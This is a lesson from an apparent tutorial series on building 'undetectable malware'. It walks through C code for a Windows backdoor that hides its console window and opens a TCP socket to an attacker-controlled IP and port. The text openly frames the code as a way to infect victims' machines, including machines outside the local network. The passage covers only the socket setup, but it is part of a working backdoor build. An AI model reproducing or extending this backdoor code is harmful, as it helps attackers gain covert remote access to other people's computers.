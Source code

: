 ```yaml
---
title: Creating our socket object
course: undetectable_malware
section: "Building sockets"
layout: lesson
---
```


Let's create the socket which will allow us to connect our server and our
client.

The first thing we'll need is to create a structure called "_ServAddr_" whose type
will also be "_sockaddr_in_". In C, a structure is defined and called as it is
known as classes in other languages. We will also define the port in which the
server is being executed, to do so, we'll create a variable called "_ServPort_"
whose type is an "_unsigned int_".

The reason why we are creating these variables, is because we'll need to define
both the IP address and the port in which our backdoor will perform the
connection to send and receive data.

Let's create a new variable called "_ServIP_" whose type will be the pointer to
a char. The code we've written in this lesson so far looks like this:

```c
struct sockaddr_in ServAddr;
unsigned short ServPort;
char *ServIP;
```

> Tip: For those who are not familiriased with C-based languages programming, a
> pointer is a variable that references a block or a space in memory.

The last variable we'll need to create so far, will be called "_wsaData_" and
its type will be "**WSADATA**". **WSADATA** is a structure that contains
information about Windows sockets, so this is something we'll need to stablish a
connection through sockets between server and client.

Once we've properly defined the previously mentioned variables, we'll set to
"_ServIP_" the IP address of the machine that will be sending data to the
infected device, that's you, the attacker. If you are going to be using virtual
machines to perform tests, you must specify the IP address of the device you
will be using, you can see your IP address by executing "`ifconfig`" in a
terminal emulator, there will appear all of the network interfaces available,
you should use the IP address of the interface you will be using when running
the tests. If you will infect a windows Machine that is not in your local
network, you must use your public IP address, you can get it by running
"`curl icanhazip.com`" in a shell.

To assign the value to "_ServIP_", in a new line, type:

```c
ServIP = "[IP ADDRESS]"
```

In the same way, we'll specify the port in which the server will be awaiting for
the connection. To do so, we will need to assign a value to "_ServPort_" too,
but, unlike "_ServIP_" this one is not of type "_char_", this one is "_int_",
which means, that "_ServPort_" will only accept integer numbers. You can choose
the port you want as long as it remains open and is not being used by some other
application. I'll be using the port 50005.

Once we have stored that information into our variables, we'll use the
"_WSAStartup_" inside of an "_if_" statement as it is shown below:

```c
if(WSAStartup()) {
}
```

To this function, we'll need to pass some arguments, the first one is a function
called "**MAKEWORD**", as it is a function, we'll open another pair of brackets,
inside of them we'll write "**2,0**" and the second argument that "_WSAStartup_"
requires is the memory block that "_wsaData_" is in.

> To get the block of memory of a pointer variable, you write "&" before the
> variable name, for example: "&wsaData"

We'll check if "_WSAStartup(MAKEWORD(2,0), &wsaData)_" is different to zero, if
it is we'll exit the program. This if statement looks like this:

```c
if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
  exit(1);
}
```

What we are doing, is check if the value that the function "_WSAStartup_"
returns is equals to zero. If it is, what is inside of the **if** block will not
be executed as the condition is not true, but if it is not zero, what is inside
of the curly brackets ("{}") will be executed, which means, the program will be
stopped.

Once the program was being initialised properly and its execution was not
stopped, we'll create a socket object. To do, we'll go out of the main function
"WinMain" and we will define it there. Why? Simple, because we will need that
same socket outside of the "_WinMain_" function, if we define it there, it would
be only accessible for what is inside of that function.

When we are outside of the function, we will create an integer variable called
"_sock_".

Now, once we have defined our "_sock_" variable, we'll return to the "_WinMain_"
function and right below of our "**if**" comparison we'll assign the following
value to sock:

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

We are defining sock as a socket by using the function "_socket_", this function
takes three arguments, the first one "**AF_INET**" represents an IPv4
connection, the second parameter "**SOCK_STREAM**" represents a TCP connection
and the third parameter is "0" as we don't need anything else.

What we will need to do later, is to modify the paramters of "_ServAddr_" as
it inherits the "_sockaddr_in_" values, but before we do that, we'll need to
turn into zeroes all of them, to do so we will need the "_memset_" function.
This function takes three parameters, the first is the memory block that
"_ServAddr_" uses (remember to use the "&"), the second parameter will be "0" as
we want to turn all of the memory space that "_ServAddr_" uses into zeros and
the third, is the size of the memory that is being use by "_ServAddr_" you can
get it by simple passing "**sizeof** _ServAddr_". That line would look like
this:

```c
memset(&ServAddr, 0, sizeof(ServAddr));
```

Now let's add custom values to the "_ServAddr_" variables (to access to them
we'll need to use a dot "." after the variable name). The first is
"_sin_family_" whose value will be set to "**AF_INET**", the second one is
"_sin_addr.s_addr_" whose value will be the server's IP address. We can't use
our variable "_ServIP_" as it is an string and not an IP address (that our C
program can recognise), so we'll convert it using a function called "_inet_addr_"
and pass "_ServIP_" as argument. The last parameter will be "_sin_port_" and as
it happened with the IP address we can't simply use our variable "_ServPort_",
instead of using "_inet_addr_" we will use "_htons_" and we will pass
"_ServPort_" as argument, in that way, our C program will recognise and be able
to work with our port.

Our code so far looks like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);
}
```
